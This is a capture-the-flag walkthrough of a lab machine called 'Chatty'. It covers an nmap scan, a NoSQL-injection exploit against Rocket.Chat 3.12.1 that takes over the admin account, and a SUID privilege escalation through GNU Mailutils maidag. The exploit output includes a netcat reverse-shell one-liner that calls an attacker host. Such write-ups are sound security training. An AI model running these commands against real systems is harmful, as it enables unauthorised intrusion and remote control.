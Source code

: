 # Chatty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 1000 192.168.183.164
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:32 +08
Warning: 192.168.183.164 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.164
Host is up (0.17s latency).
Not shown: 65500 closed tcp ports (conn-refused), 33 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

### Rocket Chat --> Admin Takeover

Port 3000 hosted an instance of Rocket Chat:

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

We can enumerate the version by visiting the `/api/info` page:

```
$ curl http://192.168.183.164:3000/api/info | jq 
{
  "version": "3.12.1",
  "success": true
}
```

This version of Rocket Chat is vulnerable to a NoSQL Injection exploit:

```
$ searchsploit rocket chat 3.12
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Rocket.Chat 3.12.1 - NoSQL Injection (Unauthenticated)     | linux/webapps/49960.py
Rocket.Chat 3.12.1 - NoSQL Injection to RCE (Unauthenticat | linux/webapps/50108.py
----------------------------------------------------------- ---------------------------------
```

I registered a new account and found the administrator profile of this instance:

<figure><img src="../../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>

We can use `50108.py` to exploit this. Since we created our own low priv user, we can comment the part of the script that resets the low priv user's password:

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

Then, we also need to change the `password` of the low priv user to the one that we used.&#x20;

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

After running the exploit, we would be given RCE access, and getting a reverse shell is pretty simple:

```
$ python3 50108.py -u 'test@website.com' -a 'admin@chatty.offsec' -t 'http://192.168.183.164:3000'
[+] Succesfully authenticated as test@website.com
Got the code for 2fa: GJLFCKKOOBCVOYSCOJYHCUZ7NAUSUMKYEZAF43RVJ5KC62JYGVYA
[+] Resetting admin@chatty.offsec password
[+] Password Reset Email Sent
[+] Succesfully authenticated as test@website.com
Got the reset token: GsL4Y53r7id414kW7PYJsZVO5YkZkkz4eCvPOrybMkl
[+] Admin password changed !
CMD:> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.184 21 >/tmp/f
[+] Succesfully authenticated as administrator
{"success":false}
```

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> MaiDag CVE

I searched for SUID binaries within the system, and found one that stood out:

```
rocketchat@chatty:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/local/sbin/maidag
```

I didn't recognise `maidag`, and so enumerated it first.&#x20;

```
rocketchat@chatty:~$ /usr/local/sbin/maidag --version
maidag (GNU Mailutils) 3.7
Copyright (C) 2007-2019 Free Software Foundation, inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

Googling the binary and its version returns a Local Privilege Escalation exploit:

{% embed url="https://www.exploit-db.com/exploits/47703" %}

There are online exploits on Github to make this process as easy as possible:

{% embed url="https://github.com/bcoles/local-exploits/tree/master/CVE-2019-18862" %}

I used `exploit.ldpreload.sh` and ran it on the machine. This would spawn a binary `sh` within `/var/tmp` that would give us a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Rooted!
